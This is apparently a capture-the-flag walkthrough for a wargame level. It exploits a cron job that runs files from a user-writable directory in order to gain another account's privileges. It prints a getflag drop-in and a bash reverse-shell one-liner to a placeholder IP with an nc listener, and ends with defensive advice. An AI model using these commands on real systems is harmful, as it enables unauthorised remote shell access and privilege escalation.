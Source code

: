 
---
### 🔍 Challenge Description

> This level introduces a scenario where a **cron job** is set up to execute scripts dropped into a specific directory.
> 
> By analysing what the cron job does, we aim to **abuse this automation** to escalate privileges and retrieve the flag from `flag03`.

**Login:** `level03 : level03`  
**Directory of interest:** `/home/flag03/writable.d`

---

### 📂 Initial Recon

Inside `/home/flag03`, we discover a shell script named `writable.sh`. This script is executed periodically via cron (every couple of minutes).

---

### 📜 Crontab Script Code

```sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
  (ulimit -t 5; bash -x "$i")
  rm -f "$i"
done
```

📌 **Breakdown:**

- Executes every file in `writable.d` using `bash -x`
    
- Limits CPU time per file to 5 seconds
    
- Deletes the file after execution
    
- Runs as **`flag03` user via cron**

This creates a perfect privilege escalation vector:

> **Anything you place in `writable.d` will be executed as `flag03`.**

---

### 🎯 Objective

Drop a payload into `writable.d` that gets executed by the cron script with `flag03`'s privileges — and use it to get a shell or run `getflag`.

---

### 💣 Exploitation Steps

#### Option 1: Quick Flag Grab (CTF-style)

Create a file that simply calls `getflag`:

```bash
echo "getflag > /tmp/flag03.txt" > /home/flag03/writable.d/flag.sh
chmod +x /home/flag03/writable.d/flag.sh
```

Wait ~2 minutes, then check:

```bash
cat /tmp/flag03.txt
```

✅ Output:

```
You have successfully executed getflag on a target account
```

---

#### Option 2: Reverse Shell (Real-World Emulation)

On your **listener machine**:

```bash
nc -nvlp 4444
```

On the target:

```bash
echo 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1' > /home/flag03/writable.d/shell.sh
chmod +x /home/flag03/writable.d/shell.sh
```

⌛ Wait for the cronjob...  
Once executed, you'll get a shell as `flag03`.

Then:

```bash
getflag
```

---

### 🧠 Takeaway

This level demonstrates a real-world mis-configuration: **insecure cron jobs executing files from writable directories.**  
It emphasizes why you should never automate execution of **user-writable files** without verification or sandboxing.

🛡️ **Security Tip:**  
Always validate, sanitize, and restrict execution rights in cron jobs, especially in shared environments.

---
